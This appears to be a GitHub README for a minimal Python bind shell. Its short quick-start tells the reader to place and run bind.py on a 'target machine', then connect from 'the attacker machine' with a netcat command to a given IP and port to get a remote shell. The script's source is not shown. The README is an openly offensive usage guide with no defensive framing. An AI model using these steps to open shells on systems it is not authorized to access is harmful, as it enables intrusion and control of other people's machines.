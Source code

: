 <p align="center">
  <h1 align="center"> A minimal Python Bind Shell</h1>
</p>

## 🚀 Quick Start
## 1. Download 'bind.py' file to the target machine.
## 2. Edit it, adding IP address and ports.
## 3. Run it:
```bash
python3 bind.py
```
## 4. Run Netcat on the attacker machine, adding TARGET_IP_ADDRESS and TARGET_PORT:

```bash
nc 192.168.204.100 1234
``` 